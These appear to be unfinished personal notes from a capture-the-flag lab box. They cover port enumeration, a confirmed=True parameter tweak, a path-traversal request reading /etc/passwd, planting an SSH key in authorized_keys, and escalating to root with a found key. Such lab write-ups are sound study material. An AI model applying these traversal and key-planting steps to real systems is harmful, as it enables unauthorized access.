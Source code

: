 #InProgress 
```IP
192.168.180.231
```
# Enumeration
## SSH
rsa
ecdsa

## HTTP 80
redirects to login page
Other directories
register
we need email confirmation

## HTTP 33017
Development
apache http server??
```
whatweb http://192.168.180.231:33017
```
Apache 2.4.38
## 3000


# Exploitation
we can alter the data by sending parameter confirmed=True
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120115231.png?raw=true)
## LFI
```
http://192.168.180.231/?cwd=../../../../../etc/&file=passwd&download=true
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120122332.png?raw=true)
 we can path traversal to remi ssh directory
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133539.png?raw=true)
 upload here a public key named authorized_keys created with the following command:
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133620.png?raw=true)
 and we are in

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133518.png?raw=true)
# PrivEsc

## Manual
Doesnt seem possible to exploit CVE-2019-13272
https://github.com/jas502n/CVE-2019-13272/tree/master

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120140346.png?raw=true)

we have root keys in .ssh/keys/root
```
ssh root@127.0.0.1 -i .ssh/keys/root
```
we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120173339.png?raw=true)

## Automated

### Peass
active ports
```
127.0.0.1:3306
127.0.0.1:3000          0.0.0.0:*               LISTEN      847/puma 5.6.5 (tcp
```
ptrace protection is disabled (0), so sudo tokens could be abused
useful software
```
/usr/bin/nc.traditional
```
mysql  Ver 15.1 Distrib 10.3.36-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
uncommon password files
```
/etc/pam.d/passwd
/etc/passwd
/usr/share/bash-completion/completions/passwd
/usr/share/lintian/overrides/passwd
```
SUID
```
/usr/bin/chfn  --->  SuSE_9.3/10
```
.sh files in path
```
/usr/bin/gettext.sh
```

ps aux
```
puma 5.6.5 (tcp://127.0.0.1:3000) [boolean]
```
### Mimikatz

# Lateral Movement
